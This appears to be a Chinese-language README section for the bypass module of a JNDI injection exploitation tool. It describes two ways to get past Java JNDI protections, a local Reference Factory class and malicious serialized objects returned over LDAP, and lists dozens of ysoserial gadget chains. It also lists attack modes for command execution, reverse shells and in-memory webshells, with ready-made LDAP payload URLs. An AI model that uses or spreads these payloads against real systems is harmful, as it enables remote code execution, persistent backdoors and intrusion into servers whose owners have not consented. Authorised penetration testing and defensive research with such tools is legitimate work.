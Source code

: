 
## bypass模块
**说明：**使用两种加载本地classpath的类进行绕过的方法：

1. 找到一个受害者本地CLASSPATH中的类作为恶意的Reference Factory工厂类，并利用这个本地的Factory类执行命令。
2. 利用LDAP直接返回一个恶意的序列化对象，JNDI注入依然会对该对象进行反序列化操作，利用反序列化Gadget完成命令执行。这里使用ysoserial的反序列化链

可以使用链(PayloadType)：
```
CommonsBeanutils1
CommonsBeanutils183NOCC
CommonsBeanutils192NOCC
CommonsCollections1
CommonsCollections2
CommonsCollections3
CommonsCollections4
CommonsCollections5
CommonsCollections6
CommonsCollections7
CommonsCollectionsK1
CommonsCollectionsK2
CommonsCollectionsK3
CommonsCollectionsK4
C3P0
groovyBytomcat
Clojure
BeanShell1
JSON1
Spring1
Spring2
Hibernate1
Myfaces1
MozillaRhino1
rome
groovy1
EL
snakeyaml
XStream
mvel
BeanShell2
tomcat_dbcp1_RCE
tomcat_dbcp2_RCE
commons_dbcp1_RCE
commons_dbcp2_RCE
druidjdbc
tomcatjdbc
Vaadin1
```
可使用的利用方式(新增内存马)
```
/[cmd]
/base64/[base64_cmd]
/reverseshell/[ip]/[port]
/reverseshell2/[ip]/[port]
/memshell/[TomcatFilterMemShellFromThread]
/memshell/FILE:data/exp.class
```
可以进行组合执行
```
ldap://ip:port/XStream/open%20-a%20calculator
ldap://ip:port/Spring1/base64/b3BlbiAtYSBjYWxjdWxhdG9y
ldap://ip:port/EL/reverseshell/127.0.0.1/4444
ldap://ip:port/CommonsBeanutils1/reverseshell2/127.0.0.1/4444
ldap://ip:port/EL/memshell/SpringInterceptorMemShell
ldap://ip:port/CommonsBeanutils1/memshell/TomcatCmdEcho
```
